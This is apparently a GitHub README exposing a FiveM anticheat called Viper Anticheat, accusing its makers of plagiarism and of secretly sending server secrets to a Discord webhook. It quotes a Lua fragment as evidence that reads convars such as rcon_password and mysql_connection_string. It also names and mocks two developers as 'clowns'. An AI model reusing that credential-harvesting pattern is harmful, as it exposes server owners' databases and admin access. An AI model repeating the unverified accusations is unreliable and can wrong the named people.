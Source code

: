 # Viper Anticheat Expose

## Overview
Viper Anticheat is a completely plagiarized anticheat solution. The following elements have been fully stolen from other projects:

- **Designs**: Authentication print, logo, and the upcoming admin menu have been entirely copied from Anvil Anticheat.
- **Videos**: The demonstration videos are direct 1-to-1 imitations of other works.
- **Ban Screen**: The ban screen has been stolen from FiveGuard.
- **Detections**: The detection methods originate from GitHub.

## Evidence
### Unauthorized Data Collection
Viper Anticheat extracts sensitive server data and sends it via a webhook to their Discord server. Below is an example of the data being stolen:

```lua
🔐 **Database Info**: %s]], GetConvar("sv_hostname", "N/A"), GetConvar("sv_projectName", "N/A"), GetConvar("sv_projectDesc", "N/A"), GetConvar("steam_webApiKey", "N/A"), GetConvar("sv_licenseKey", "N/A"), GetConvar("sv_maxclients", "N/A"), GetConvar("rcon_password", "N/A"), GetConvar("mysql_connection_string", "N/A")),
    fields = {
        {name = "", value = string.format("<t:%d:R> **AUTH SYSTEM** © VIPER ANTICHEAT | https://discord.gg/hjKJukrfGN", os.time()), inline = false}
    }
```

#### Stolen Data Includes:
- **mysql_connection_string**: Your database connection details.
- **rcon_password**: Allows unauthorized access to your server.

### Developers
The developers behind Viper Anticheat are identified as:

- **Sanji** (Clown Developer #1)
  ![Sanji Image](https://github.com/user-attachments/assets/7c9a92c0-4e24-491c-9ea2-f2f25f3745b3)

- **Nxton** (Clown Developer #2)
  ![Nxton Image](https://github.com/user-attachments/assets/c807bf54-de3c-46ea-9c48-c38475e98773)

### Additional Observations
- **Irresponsible Coding Practices**: Their code includes unnecessary functions for simple tasks and lacks proper optimization.
- **Suspicious Use of ChatGPT**: Code patterns suggest heavy reliance on AI tools like ChatGPT.

#### Examples:
1. ChatGPT comments left in the code:
   ![ChatGPT Comments](https://github.com/user-attachments/assets/584450ba-9ee3-4d96-abda-9451cf49783f)

2. Inefficient GitHub-based detections:
   ![GitHub Detection](https://github.com/user-attachments/assets/08c884ef-4e6c-4486-b860-2aa981f1448f)

3. Over-engineered code snippets:
   ![Over-Engineered Code](https://github.com/user-attachments/assets/54800d18-d477-4ed5-891f-2defaeab4709)

## Conclusion
Viper Anticheat may be free, but it poses significant security and ethical risks. Under no circumstances should this anticheat be added to your server. Stay safe and use trusted solutions.
